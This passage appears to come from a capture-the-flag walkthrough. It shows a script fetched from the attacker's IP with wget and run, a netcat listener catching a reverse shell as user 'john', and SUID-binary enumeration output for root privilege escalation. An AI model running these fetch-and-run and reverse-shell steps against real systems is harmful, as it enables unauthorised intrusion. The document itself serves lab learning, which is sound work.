 wget <Your\_IP>/john.sh  
  
chmod +x john.sh  
  
./john.sh  
  
  
  
nc -nlvp 4444  
  
  
  
\--- And we have the shell with john!!!!  
  
  
  
  
  
10) -- Privesc Root Part --  
  
  
  
  
  
\--Enum  
  
  
  
find / -type f -perm -4000 -ls 2>/dev/null  
  
1425624  52 -r-sr-xr-x    3 root    bin        26552 Oct  5 00:47 /usr/bin/chfn  
  
1425624  52 -r-sr-xr-x    3 root    bin        26552 Oct  5 00:47 /usr/bin/chpass  
  
1425624  52 -r-sr-xr-x    3 root    bin        26552 Oct  5 00:47 /usr/bin/chsh  
  
1425650  56 -r-sr-xr-x    1 root    bin        27464 Oct  5 00:47 /usr/bin/doas  
  
1425715  60 -r-sr-sr-x    1 root    daemon      29936 Oct  5 00:47 /usr/bin/lpr  
  
1425716  52 -r-sr-sr-x    1 root    daemon      24880 Oct  5 00:47 /usr/bin/lprm  
  
1425743  44 -r-sr-xr-x    1 root    bin        20936 Oct  5 00:47 /usr/bin/passwd  
  
1425809  36 -r-sr-xr-x    1 root    bin        17216 Oct  5 00:47 /usr/bin/su  
  
1478072  20 -r-sr-xr-x    1 root    bin          8880 Oct  5 00:47 /usr/libexec/lockspool  
  
1478095  960 -r-sr-xr-x    1 root    bin        466608 Oct  5 00:47 /usr/libexec/ssh-keysign  
  
1481580  20 -rwsr-s---    1 root    staff        9024 Jan  5 13:04 /usr/local/bin/log  
  
1503426  48 -r-sr-sr-x    2 root    authpf      23000 Oct  5 00:47 /usr/sbin/authpf  
  
1503426  48 -r-sr-sr-x    2 root    authpf      23000 Oct  5 00:47 /usr/sbin/authpf-noip  
  
1503506  288 -r-sr-x---    1 root    network    146208 Oct  5 00:47 /usr/sbin/pppd  
  
1503559  64 -r-sr-xr-x    2 root    bin        32712 Oct  5 00:47 /usr/sbin/traceroute  
  
1503559  64 -r-sr-xr-x    2 root    bin        32712 Oct  5 00:47 /usr/sbin/traceroute6  
  
362927  736 -r-sr-xr-x    2 root    bin        356768 Oct  5 00:47 /sbin/ping  
  
362927  736 -r-sr-xr-x    2 root    bin        356768 Oct  5 00:47 /sbin/ping6  
  
362934  576 -r-sr-x---    1 root    operator  275928 Oct  5 00:47 /sbin/shutdown  
  
  
  
